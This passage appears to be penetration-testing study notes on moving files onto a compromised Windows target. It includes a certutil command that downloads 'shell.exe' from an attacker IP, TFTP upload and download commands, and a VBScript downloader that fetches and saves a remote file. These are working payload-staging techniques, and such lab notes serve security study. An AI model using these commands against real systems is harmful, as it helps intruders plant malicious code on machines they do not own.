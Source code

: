 Genuinely forget that this is a thing most of the time but it's such a useful tool. If you're on a Windows machine then this may be a viable option for transferring files from our host system to the target:

```bash
certutil -urlcache -f “http://10.10.14.14/shell.exe” shell.exe
```

That's it really.

It might not always be a thing, but on older Windows machines it should be present.

## TFTP

Trivial File Transfer Protocol is a nice way to get around file transfers on Windows assuming it's installed on the sytem. It's basically FTP but it runs on UDP instead of TCP.

```bash
service atftpd start
```

On Kali by default TFTP is configured from the following location:

`/etc/default/atftpd`

And it serves files (by default) from:

`/srv/tftp`

To download files from a server we can do:

```bash
tftp -i host GET C:%homepath%file location_of_file_on_tftp_server
```

And to upload a file to the server we can do:

```bash
tftp -i host PUT C:%homepath%file location_of_file_on_tftp_server
```

## SFTP

[How To Use SFTP to Securely Transfer Files with a Remote Server](https://www.digitalocean.com/community/tutorials/how-to-use-sftp-to-securely-transfer-files-with-a-remote-server)

## VisualBasic

If push comes to shove, we can use something like the following:

```bash
Set args = Wscript.Arguments 
Url = "http://domain/file" dim xHttp: 
Set xHttp = createobject("Microsoft.XMLHTTP") dim bStrm: 
Set bStrm = createobject("Adodb.Stream") 
xHttp.Open "GET", Url, False xHttp.Send with bStrm     
.type = 1 '     
.open     
.write xHttp.responseBody     
.savetofile " C:%homepath%file", 2 ' end with
```
